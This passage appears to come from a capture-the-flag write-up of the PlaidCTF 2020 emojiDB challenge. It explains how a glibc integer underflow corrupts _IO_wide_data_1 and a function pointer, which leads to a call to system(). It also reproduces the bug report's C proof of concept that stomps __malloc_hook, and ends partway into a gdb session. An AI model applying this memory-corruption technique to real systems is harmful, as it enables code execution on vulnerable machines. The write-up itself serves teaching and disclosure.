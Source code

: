 
After doing some digging, I saw that there is an integer underflow in libc, in a calculation of the count of bytes we can allow to copy. This is super convenient, because we can corrupt freely in _IO_wide_data_1. As it happens, we have a function pointer that is being corrupted with our data, and rdi points before it. We already have the infoleak from before so we can calculate the address of system(), and from there it's clearly game over:

![image](https://github.com/saaramar/emojidb_plaidctf2020/raw/master/docs/assets/final.PNG)

And, just for fun, look at the TCP stream in UTF8:

![image](https://github.com/saaramar/emojidb_plaidctf2020/raw/master/docs/assets/cap_screenshot.PNG)	

## The vulnerability

While debugging, I was super curios about this issue. And, when the flag came, it actually referred us to an actual (super interesting) [vulnerability](https://sourceware.org/bugzilla/show_bug.cgi?id=20632) in glibc!. Check out this POC (taken directly from the bug report), which corrupts ```__malloc_hook``` to get an arbitrary jump:

```c
#include <stdio.h>
#include <wchar.h>
#include <unistd.h>
#include <stdlib.h>

int main(void) {
   /* Close stderr */
   close(2);

   /* Output long string */
   const int sz = 4096;
   wchar_t *buff = calloc(sz+1, sizeof *buff);
   for (int i=0; i < sz; i++) buff[i] = L'x';
   fputws(buff, stderr);

   /* Output shorter string */
   for (int i=0; i < 1024; i++) {
     fputws(L"0123456789ABCDEF", stderr);

     /* Call malloc, which should not crash.
        However it will if malloc's function pointers
        have been stomped. */
     free(malloc(1));
   }
   return 0;
}
```

If we compile and run it:

```bash
amarsa@SaarAmar-book2:/mnt/c/CTFs/plaid2020/emojiDB/final$ gdb bin/bug_20632_poc
GNU gdb (Ubuntu 8.1-0ubuntu3.1) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
```